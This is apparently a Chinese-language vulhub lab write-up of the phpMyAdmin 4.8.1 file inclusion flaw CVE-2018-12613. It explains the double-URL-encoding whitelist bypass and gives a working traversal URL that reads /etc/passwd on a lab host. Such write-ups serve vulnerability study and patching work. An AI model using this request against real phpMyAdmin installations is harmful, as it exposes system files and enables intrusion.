 # phpmyadmin 4.8.1远程文件包含漏洞（CVE-2018-12613）

###### by ADummy

### 0x00利用路线

​			首先要能登录数据库，然后测试文件包含

### 0x01漏洞介绍

这里需要满足如下5个条件便可以执行包含文件代码`include $_REQUEST['target'];`

1.`$_REQUEST['target']`不为空
2.`$_REQUEST['target']`是字符串
3.`$_REQUEST['target']`开头不是`index`
4.`$_REQUEST['target']`不在`$target_blacklist`中
5.`Core::checkPageValidity($_REQUEST['target'])`为真	

##### 			影响版本

```
phpmyadmin 4.8.0/4.8.1
```

### 0x02漏洞复现

访问`http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd`，结果表明存在文件包含漏洞：

##### %253f 这里是对/进行了2次url编码

function checkFile():

变量未声明、非字符串：return false
$page未在白名单中：return false
以’?'为分割符取出前面字符后得到$_page
$_page未在白名单中：return false
url解码后，重复以上3、4步操作
最后如果request得到的file值非空、是字符串且通过了checkFile，则包含file

因为服务器会自动url解码一次，这里用二次编码。

可能可以getshell，但docker环境下我没找到文件

![phpmyadmin_RFI_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/phpmyadmin_RFI_1.jpg)

![phpmyadmin_RFI_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/phpmyadmin_RFI_2.jpg)

### 0x03参考资料

https://xz.aliyun.com/t/6592

https://blog.csdn.net/weixin_43872099/article/details/104128639	

